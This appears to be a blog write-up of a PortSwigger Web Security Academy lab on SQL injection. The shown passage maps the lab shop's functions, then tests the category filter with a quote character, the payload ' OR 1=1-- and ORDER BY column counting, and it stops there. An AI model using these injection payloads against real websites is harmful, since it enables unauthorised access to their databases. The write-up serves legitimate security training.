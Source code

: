 Home page:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/Hyr_4l8ih.png)

After reviewing the application, I found that there are 3 main functions on the web application, including:
- Login function

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/ByTfBxLsh.png)

- Function to display products in catalog
`https://0a6f008303bbb474830d2ea8005400d7.web-security-academy.net/filter?category=Lifestyle`
- Function to view product details by id
`https://0a6f008303bbb474830d2ea8005400d7.web-security-academy.net/product?productId=2`


In the Product display function in the catagory, I tested it with the payload:
`/filter?category="'` then get the following result.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/rJ7dBgUs3.png)

Show that the input data in this section affects and causes errors in the execution.

I see that in this section there are 5 categories that allow searching.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/H1ZMLeUjh.png)

Each category will display 4 products.

Ex:
`https://0a6f008303bbb474830d2ea8005400d7.web-security-academy.net/filter?category=Toys+%26+Games`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/ryC7DgLs2.png)

i will try applying `Retrieving hidden data` method to read hidden data with payload `' OR 1=1--`.

Ex: `Toys & Games' or 1=1--`
As a result, I can see all products in a category.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/SyNQdlUo2.png)

Now we have located where to insert the sql injection payload. is in `/filter?category=`

I will insert the payload that determines the column number of the query. I will use both methods.

**Method 1:**
```js
/filter?category=Toys & Games' order by 1--
=> return True


/filter?category=Toys & Games' order by 2--
=> reutrn True


/filter?category=Toys & Games' order by 3--
=> return True


/filter?category=Toys & Games' order by 4--
return False

```
